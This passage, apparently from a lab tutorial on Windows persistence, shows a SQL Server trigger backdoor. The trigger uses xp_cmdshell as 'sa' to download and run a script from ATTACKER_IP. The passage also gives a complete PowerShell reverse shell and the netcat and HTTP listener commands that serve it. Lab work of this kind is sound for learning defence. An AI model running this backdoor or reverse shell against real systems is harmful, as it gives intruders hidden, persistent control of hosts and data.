 ```sql
CREATE TRIGGER [sql_backdoor]
ON HRDB.dbo.Employees 
FOR INSERT AS

EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://ATTACKER_IP:8000/evilscript.ps1'')"';
```

Now that the backdoor is set up, let's create `evilscript.ps1` in our attacker's machine, which will contain a Powershell reverse shell:

```powershell
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP",4454);

$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};

$client.Close()
```

We will need to open two terminals to handle the connections involved in this exploit:

- The trigger will perform the first connection to download and execute `evilscript.ps1`. Our trigger is using port 8000 for that.
- The second connection will be a reverse shell on port 4454 back to our attacker machine.

| AttackBox                `user@AttackBox$ python3 -m http.server  Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...         ` |      | AttackBox                `user@AttackBox$ nc -lvp 4454 Listening on 0.0.0.0 4454         ` |
| ------------------------------------------------------------ | ---- | ------------------------------------------------------------ |
|                                                              |      |                                                              |

With all that ready, let's navigate to `http://10.10.157.205/` and insert an employee into the web application. Since the web  application will send an INSERT statement to the database, our TRIGGER  will provide us access to the system's console.

# Conclusion                                                                                                    

In this room, we have  covered the primary methods used by attackers to establish persistence  on a machine. You could say persistence is the art of planting backdoors on a system while going undetected for as long as possible without  raising suspicion. We have seen persistence methods that rely on  different operating system components, providing various ways to achieve long-term access to a compromised host.

While we have shown several techniques, we have only covered a small  fraction of those discovered. If you are interested in learning other  techniques, the following resources are available:
